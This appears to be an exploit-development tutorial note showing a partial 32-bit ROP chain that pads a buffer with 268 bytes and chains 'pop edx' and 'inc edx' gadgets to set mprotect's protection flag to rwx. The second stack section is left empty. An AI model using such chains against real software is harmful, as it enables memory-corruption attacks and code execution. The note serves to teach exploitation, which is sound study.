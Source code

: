 # Using ROP chain to call mprotect with proper arguments:


* The goal here is to fill the stack with the addresses of gadgets, that we will use, in chain, to fill the registers used by mprotect() when it executes. I'll use the same values as those seen in the mprotect.md example. 
* We will fill the entire buffer with 268*A, then, 

## STACK 1:

- libc_base address             = 0xf7d75000
- `pop edx; ret;` gadget offset = 0x0003b4fc
--------------------------
A * 268
--------------------------
0xF7DB04FC                  <== `pop edx; ret` gadget
--------------------------
0xffffffff                  <== esp will contain 0xffffffff
--------------------------
0xF7E157F8                  <== `inc edx; ret` gadget, when it will be exec, EDX will contain 0 (ffffffff + 1 = 0)
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8                  <== EDX now contains 7 aka `rwx`
--------------------------

## STACK 2:
--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------
